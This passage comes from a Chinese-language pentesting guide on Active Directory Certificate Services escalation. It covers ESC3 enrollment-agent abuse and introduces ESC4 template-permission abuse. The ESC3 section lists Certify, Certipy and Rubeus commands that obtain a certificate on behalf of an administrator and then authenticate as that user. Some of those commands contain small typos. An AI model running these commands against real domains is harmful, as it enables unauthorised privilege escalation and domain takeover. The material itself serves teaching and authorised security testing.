 - 企业 CA 授予低权限用户注册权。
- 经理批准被绕过。
- 模板的架构版本为 1 或超过 2，并指定了需要证书请求代理 EKU 的应用程序策略发行要求。
- 证书模板中定义的 EKU 允许域身份验证。
- CA 上未应用对注册代理的限制。

### Abuse

您可以使用 [**Certify**](https://github.com/GhostPack/Certify) 或 [**Certipy**](https://github.com/ly4k/Certipy) 来滥用此场景：
```bash
# Request an enrollment agent certificate
Certify.exe request /ca:DC01.DOMAIN.LOCAL\DOMAIN-CA /template:Vuln-EnrollmentAgent
certipy req -username john@corp.local -password Passw0rd! -target-ip ca.corp.local' -ca 'corp-CA' -template 'templateName'

# Enrollment agent certificate to issue a certificate request on behalf of
# another user to a template that allow for domain authentication
Certify.exe request /ca:DC01.DOMAIN.LOCAL\DOMAIN-CA /template:User /onbehalfof:CORP\itadmin /enrollment:enrollmentcert.pfx /enrollcertpwd:asdf
certipy req -username john@corp.local -password Pass0rd! -target-ip ca.corp.local -ca 'corp-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'

# Use Rubeus with the certificate to authenticate as the other user
Rubeu.exe asktgt /user:CORP\itadmin /certificate:itadminenrollment.pfx /password:asdf
```
允许**获取**注册代理证书的**用户**、注册**代理**被允许注册的模板，以及注册代理可以代表其行动的**帐户**可以通过企业CA进行限制。这是通过打开`certsrc.msc` **管理单元**，**右键单击CA**，**点击属性**，然后**导航**到“注册代理”选项卡来实现的。

然而，注意到CA的**默认**设置是“**不限制注册代理**。”当管理员启用对注册代理的限制，将其设置为“限制注册代理”时，默认配置仍然非常宽松。它允许**所有人**以任何身份访问所有模板进行注册。

## 脆弱的证书模板访问控制 - ESC4

### **解释**

**证书模板**上的**安全描述符**定义了特定**AD主体**对模板所拥有的**权限**。

如果**攻击者**拥有必要的**权限**来**更改**模板并**建立**任何在**前面部分**中概述的**可利用的错误配置**，则可能会促进特权升级。

适用于证书模板的显著权限包括：

- **所有者：**隐式控制对象，允许修改任何属性。
- **完全控制：**对对象拥有完全权限，包括更改任何属性的能力。
- **写所有者：**允许将对象的所有者更改为攻击者控制的主体。
- **写Dacl：**允许调整访问控制，可能授予攻击者完全控制权限。
- **写属性：**授权编辑任何对象属性。

### 滥用

一个类似于之前的特权升级的例子：

<figure><img src="../../../images/image (814).png" alt=""><figcaption></figcaption></figure>

ESC4是指用户对证书模板具有写权限。这可以被滥用来覆盖证书模板的配置，使模板易受ESC1的攻击。
